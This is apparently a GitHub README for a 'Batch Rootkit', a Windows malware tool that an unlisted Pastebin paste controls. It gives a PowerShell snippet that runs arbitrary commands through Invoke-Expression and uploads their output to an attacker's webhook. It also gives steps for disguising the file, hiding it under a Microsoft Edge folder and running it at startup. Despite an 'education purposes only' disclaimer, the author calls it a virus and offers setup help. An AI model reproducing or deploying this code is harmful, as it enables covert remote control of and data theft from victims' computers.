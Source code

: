 # Batch Rootkit

> __Warning__ 
> **I hereby declare that I am not liable for any damages caused by the program. If you experience any problems with my code, feel free to reach out to me on Discord.**


> __Warning__ 
> **ITS EDUCATION PURPOSES ONLY**


## Contact
In case you require any assistance with my project, please do not hesitate to contact me on Discord.
**Code613 on discord**

## About project
Batch rootkit is using pastebin paste to control computer. You can use all powershell and cmd commends.

##How to use
1. Create account on Create paste on https://pastebin.com/
2. Create paste on https://pastebin.com/
3. Make paste to unlisted
4. Change your webhook url and commend that you want to use
```PowerShell
$webhookUrl = "Your webhook url"
$outputFile = "output.txt"
$command = "Commend you want to use"
Invoke-Expression "$command | Out-File -FilePath $outputFile"
#tasklist | Out-File -FilePath $outputFile
$client = New-Object System.Net.WebClient
$client.UploadFile($webhookUrl, $outputFile)
Remove-Item $outputFile
 ```
5. To use cmd commend use ```cmd /c```  to use powershell commend just use your commend without ```cmd /c```
6. Save your paste
7. Press raw button
8. Copy link
9. Paste this link into batch code
10. Change name of rootkit.bat to anything you want
11. Done
12. Now application will run on startup and will be stored in %localappdata%/Microsoft Edge
13. If you need help i can show you how to setup this **VIRUS** for **EDUCATION PURPOSES ONLY** so feel free to contact me on my discord.

